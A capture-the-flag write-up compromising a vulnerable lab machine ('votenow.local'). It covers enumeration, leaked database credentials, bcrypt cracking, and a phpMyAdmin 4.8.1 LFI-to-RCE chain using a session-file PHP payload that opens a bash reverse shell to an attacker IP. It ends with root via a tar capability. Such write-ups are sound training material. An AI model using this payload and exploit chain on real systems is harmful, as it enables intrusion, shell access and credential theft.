 Skills:

- Web Enumeration
- Information Leakage
- Virtual Hosting
- Subdomain Enumeration
- Abusing phpMyAdmin - LFI to RCE (abusing PHP ID sessions)
- Cracking Hashes (User Pivoting)
- Abusing Capabilities (tar cap_dac_read_search+ep) [Privilege Escalation]


Using whatweb to look for information about the site, I found a doman name, so I save it in the hosts file.
```
❯ whatweb 192.168.0.110
http://192.168.0.110 [200 OK] Apache[2.4.6], Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,contact@votenow.loca], HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.5.38], IP[192.168.0.110], JQuery, PHP[5.5.38], Script, Title[Ontario Election Services &raquo; Vote Now!]

```

Now I fuzz the site with gobuster tool,

```
❯ gobuster dir -u http://votenow.local/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash
/cgi-bin/             (Status: 403) [Size: 210]
/icons/               (Status: 200) [Size: 74409]
/assets/              (Status: 200) [Size: 1505]
```

gobuster only found 3 directory but not useful , so I try to fuzz for subdomains

```
❯ wfuzz --hc=400 --hl=282 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host:FUZZ.votenow.local" http://votenow.local/
"datasafe" 
```

Wfuzz found the "datasafe" subdoman, I saved it in my hosts file.

Checking the subdomain on the site , I found a phpmyadmin application, but I couldn't do anything whit it, so I try fuzzing it again.

```
❯ gobuster dir -u http://votenow.local/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,php.bak
```


gobuster discovered a config.php.bak file, I used curl to inspect it and found a database credentials
```
❯ curl -s http://votenow.local/config.php.bak
<?php

$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";
$dbHost = "localhost";
$dbname = "votebox";

?>
```

I used these credentials on the phpmyadmin application and was able to log in, 
I was able to crack the hash for the 'admin' user found in the phpMyAdmin database or change the password .

Used nth to identify the hash type
```
❯ nth -t '$2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i'

  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 
    

$2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i

Most Likely 
bcrypt, HC: 3200 JtR: bcrypt
Blowfish(OpenBSD), HC: 3200 JtR: bcrypt Summary: Can be used in Linux Shadow Files.
Woltlab Burning Board 4.x, 

❯ 
❯ hashcat -m 3200 hash ~/Documents/wordlist/rockyou.txt
	$2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i:Stella
```


Looking for a vulnerability in the phpmyadmin version using searchsploit

the phpmayadmin version is 4.8.1, and when I used the searchsploit tool I discovered a local file inclusion and a remote code execution vulnerabilities.

```
❯ searchsploit phpmyadmin 4.8.1
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                           | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                           | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                                                                                                        | php/webapps/50457.py
```

I was able to exploit these vulnerabilities to establish a reverse shell
```
#on the phpmyadmin application
Go to --> SQL
Create a payload --> select '<?php system("bash -i >& /dev/tcp/192.168.0.100/1234 0>&1"); ?>'

#On my machine
nc -nlvp 1234

#on phpmyadmin application
Go to --> http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_(mysessionid)

```

In this way I gained access to the victim machine

Privilege escalation (there is a note with a hint)

```
> sudo -l --> nothing
> find / -perm -4000 2>/dev/null --> nothing
> [admin@votenow /]$ getcap -r / 2>/dev/null
  	/usr/bin/tarS = cap_dac_read_search+ep --> capabilities
> [admin@votenow /]$ ls -la /usr/bin/tarS
-rwx------. 1 admin admin 346136 Jun 27  2020 /usr/bin/tarS
```

Found  "cap_dac_read_search+ep" capabilities on the tarS binary, which allows me to read privileged files with these capabilities
```
>[admin@votenow ~]$ tarS -cvf root.tar /root/.ssh
tarS: Removing leading `/' from member names
/root/.ssh/
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys

[admin@votenow ~]$ tarS -xf root.tar 
[admin@votenow ~]$ ls
notes.txt  pspy64  root  root.tar  user.txt
[admin@votenow ~]$ cd root
[admin@votenow root]$ ls
[admin@votenow root]$ ls -la
total 0
drwxrwxr-x  3 admin admin  18 Oct 16 20:21 .
drwx------. 3 admin admin 174 Oct 16 20:21 ..
drwx------  2 admin admin  61 Jun 28  2020 .ssh
[admin@votenow root]$ cd .ssh
[admin@votenow .ssh]$ ls
authorized_keys  id_rsa  id_rsa.pub
[admin@votenow .ssh]$ ssh -i id_rsa root@localhost -p 2082
The authenticity of host '[localhost]:2082 ([127.0.0.1]:2082)' can't be established.
ECDSA key fingerprint is SHA256:Aifft9XCM1HTYRoNyus8/X9amRXYGMI80UwZGUyWs10.
ECDSA key fingerprint is MD5:e9:e6:3a:83:8e:94:f2:98:dd:3e:70:fb:b9:a3:e3:99.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[localhost]:2082' (ECDSA) to the list of known hosts.
Last login: Sun Jun 28 00:42:56 2020 from 192.168.56.1
[root@votenow ~]# whoami
root
[root@votenow ~]# cd /root
[root@votenow ~]# ls
anaconda-ks.cfg  root-final-flag.txt
[root@votenow ~]# cat root-final-flag.txt 
Congratulations on getting root.

 _._     _,-'""`-._
(,-.`._,'(       |\`-/|
    `-.-' \ )-`( , o o)
          `-    \`_`"'-

This CTF was created by bootlesshacker - https://security.caerdydd.wales

Please visit my blog and provide feedback - I will be glad to hear from you.


```

